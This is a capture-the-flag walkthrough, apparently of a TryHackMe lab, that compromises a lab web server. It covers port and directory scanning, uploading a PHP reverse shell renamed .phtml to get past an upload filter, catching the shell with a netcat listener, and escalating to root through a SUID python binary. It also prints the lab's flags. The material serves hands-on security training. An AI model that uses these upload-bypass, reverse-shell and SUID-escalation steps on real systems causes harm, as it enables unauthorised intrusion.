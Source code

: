 ## Task2 : Reconnaissance

#### Scan the machine, how many ports are open ?
`nmap -sV -sC 10.10.35.72`

> Starting Nmap 7.60 ( https://nmap.org ) at 2022-06-15 21:21 BST
> 
> Nmap scan report for ip-10-10-35-72.eu-west-1.compute.internal (10.10.35.72)
> 
> Host is up (0.048s latency).
> 
> Not shown: 998 closed ports
> 
> PORT   STATE SERVICE VERSION
> 
> **22/tcp open  ssh**     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
> 
> | ssh-hostkey: 
> 
> |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
> 
> |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
> 
> |\_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
> 
> **80/tcp open**  http    Apache httpd 2.4.29 ((Ubuntu))
> 
> | http-cookie-flags: 
> 
> |   /: 
> 
> |     PHPSESSID: 
> 
> |\_      httponly flag not set
> 
> |\_http-server-header: **Apache/2.4.29** (Ubuntu)
> 
> |\_http-title: HackIT - Home
> 
> MAC Address: 02:D8:C2:12:3D:E3 (Unknown)
> 
> Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

#### What version of Apache is running ?
Apache httpd 2.4.29

#### What service is running on port 22 ?
SSH

#### Find directories on the web server using the GoBuster tool.

`gobuster dir -u http://10.10.35.72 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

> ===============================================================
> 
> Gobuster v3.0.1 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
> 
> ===============================================================
> 
> [+] Url:            http://10.10.35.72
> 
> [+] Threads:        10
> 
> [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
> 
> [+] Status codes:   200,204,301,302,307,401,403
> 
> [+] User Agent:     gobuster/3.0.1
> 
> [+] Timeout:        10s
> 
> ===============================================================
> 
> 2022/06/15 21:25:26 Starting gobuster
> 
> ===============================================================
> 
> /uploads (Status: 301)
> 
> /css (Status: 301)
> 
> /js (Status: 301)
> 
> /panel (Status: 301)
> 
> /server-status (Status: 403)
> 
> ===============================================================
> 
> 2022/06/15 21:33:11 Finished

#### 5) What is the hidden directory ?

/panel/

## Task 3 : Getting a shell.

#### Find a form to upload and get a reverse shell, and find the flag (user.txt).

Let's visit the hidden directory :
http://10.10.35.72/panel/

There is an upload form.

Download https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Edit it and replace "127.0.0.1" with the IP address of the Attack machine.
Save the file as 'untitled.php' and upload it using the form at http://10.10.35.72/panel/

.PHP files are not allowed.

But .phtml is accepted.

Use netcat to listen on port 1234 :
`nc -lvnp 1234`
> Listening on [0.0.0.0] (family 0, port 1234)

Then visit http://10.10.35.72/uploads/untitled.php to get the reverse shell :

> Connection from 10.10.35.72 35562 received!
> 
> Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux 20:53:00 up 35 min,  0 users,  load average: 0.00, 0.05, 0.57
> 
> USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
> 
> uid=33(www-data) gid=33(www-data) groups=33(www-data)
> 
> /bin/sh: 0: can't access tty; job control turned off

`whoami`

> www-data

`find / -type f -iname 'user.txt' 2>/dev/null`

> /var/www/user.txt

`cat /var/www/user.txt`

> THM{y0u_g0t_a_sh3ll}`

## Task 4 : Privilege escalation.

#### Search for files with SUID permission, which file is weird ?

`find / -user root -perm -4000 2>/dev/null`

> /usr/bin/python

#### Find a form to escalate your privileges.

Visit https://gtfobins.github.io/gtfobins/python/ --> SUID

> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
> 
> This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.
>
> `sudo install -m =xs $(which python) .`
>
> `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

`cd /usr/bin/`

`sudo install -m =xs $(which python) .`

`./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

`whoami`

> root

`find / -type f -iname "root.txt"`

> /root/root.txt

`cat /root/root.txt`

> THM{pr1v1l3g3_3sc4l4t10n}
